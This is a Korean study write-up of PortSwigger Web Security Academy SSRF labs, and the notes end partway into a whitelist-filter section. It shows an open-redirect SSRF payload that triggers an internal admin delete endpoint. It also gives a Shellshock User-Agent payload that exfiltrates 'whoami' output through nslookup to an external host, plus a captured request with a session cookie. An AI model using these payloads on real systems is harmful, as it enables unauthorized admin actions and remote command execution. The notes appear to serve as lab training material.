 4. 관리 인터페이스 에서 삭제 기능 url 확인 후 , api호출 시 삭제 기능 까지 호출 
```
stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos

->

삭제 기능 동작 확인
```


# 6. [전문가, 버프프로] Shellshock 공격을 이용한 블라인드 SSRF

> referer에 외부대역 url 사용 (드림핵 툴)
> 완료 하려면 버프프로 Collaborator 필요

- 문제 `192.168.0.X` 공격

1. 일반 페이지 호출 url
```
GET /product?productId=1 HTTP/2
Host: 0ad000f504543524817343420032005a.web-security-academy.net
Cookie: session=zyMaFDg4vKk6m8Oa6dzCKoPmuq7NlMQX
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad000f504543524817343420032005a.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
```

2. shell shock  user-agent 구글 검색 하여 페이로드 찾기 
	- intruder 로 1 - 255 까지

```
User-Agent: () { :; }; /bin/nslookup $(whoami) .외부url.com
Referer: http://192.168.0.1:8080/ 
```


# 7. [전문가] 화이트리스트 기반 입력 필터를 사용하는 SSRF

- 관리인터페이스 접근 http://localhost/admin 
